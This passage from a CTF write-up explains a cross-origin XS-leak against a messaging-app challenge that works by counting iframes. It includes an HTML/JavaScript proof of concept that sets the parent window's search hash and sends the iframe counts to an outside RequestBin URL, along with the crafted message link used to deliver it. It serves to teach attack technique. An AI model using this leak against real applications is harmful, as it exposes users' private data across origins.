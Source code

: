 Why is all this important? Well, because it turns out it's possible to leak cross-domain information using metadata based on `iframe` counts. One of our team members figured it out during the CTF, and we later found a [blog post](https://ronmasas.com/posts/facebook-messenger-xsleak) by who if not [Ron Masas](https://twitter.com/ronmasas), the challenge author. 

How does it work? If an `iframe` is shown when there are no search results and no iframe is shown when there are results, then by counting the number of `iframe`s we can understand if there were results or not. This is something that can happen cross-origin. And not only that, we can also change the hash of a `window.location` from a cross-origin context, allowing us to search for whatever we want.

Let's create a short PoC:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>sigNULL</title>
  </head>
  <body>
    <script>
      const delay = ms => new Promise(res => setTimeout(res, ms));

      const get_num_iframes_for_search = async function(term) {
        const uri_prefix = "https://signull.chal.intentsummit.org#";
        window.parent.location = uri_prefix + encodeURIComponent(term);
        await delay(100);
        return window.parent.frames.length;
      }

      const run = async function() {
        const request_bin = "https://enswwrsynfpwo.x.pipedream.net/";

        for (const term of ["INTENT", "asdf"]) {
          const num_iframes = await get_num_iframes_for_search(term);
          fetch(`${request_bin}?term=${term}&num=${num_iframes}`);
        }
      }

      (async function() {
        await run();
      })();
    </script>
  </body>
</html>
```

Remember that this code will be embed into an `iframe` on Jeff's side. What we do here is use `window.parent.location` to change the hash of the `iframe`'s parent (i.e. the messaging application) to two different values: `INTENT` and `asdf`. Each time, we wait a while and count the amount of `iframe`s on the page. We then log the result to our RequestBin. 

We send `https://sigNULL%2Ejctf%2Erepl%2Eco?www.youtube.com/embed/` as a message and get two hits from the remote client:

